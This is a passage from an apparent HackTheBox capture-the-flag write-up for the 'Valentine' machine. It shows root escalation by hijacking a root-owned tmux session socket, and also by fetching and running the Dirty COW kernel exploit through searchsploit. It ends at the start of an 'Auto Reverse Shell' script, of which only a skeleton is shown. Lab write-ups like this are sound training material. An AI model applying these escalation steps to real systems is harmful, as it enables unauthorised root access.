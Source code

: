 # hype --> root

And we found tmux running as root in a session acessible for us

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-19-HackTheBox-Valentine/2021-12-19-HackTheBox-Valentine%2012:19:20.png)

```sh
/usr/bin/tmux -S /.devs/dev_sess
```

And, we are root

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-19-HackTheBox-Valentine/2021-12-19-HackTheBox-Valentine%2012:20:29.png)

We can get root too in this box with `dirtycow`

```sh
uname -a
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-19-HackTheBox-Valentine/2021-12-19-HackTheBox-Valentine%2012:43:44.png)

```sh
searchsploit dirty cow
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-19-HackTheBox-Valentine/2021-12-19-HackTheBox-Valentine%2012:45:23.png)

```sh
searchsploit -m linux/local/40839.c
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-19-HackTheBox-Valentine/2021-12-19-HackTheBox-Valentine%2012:50:20.png)

Upload to the box and execute it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-19-HackTheBox-Valentine/2021-12-19-HackTheBox-Valentine%2012:50:58.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-19-HackTheBox-Valentine/2021-12-19-HackTheBox-Valentine%2012:51:31.png)

And we are root

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-19-HackTheBox-Valentine/2021-12-19-HackTheBox-Valentine%2012:51:50.png)

Now let's easily automate it.


# Auto Reverse Shell

We'll use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
```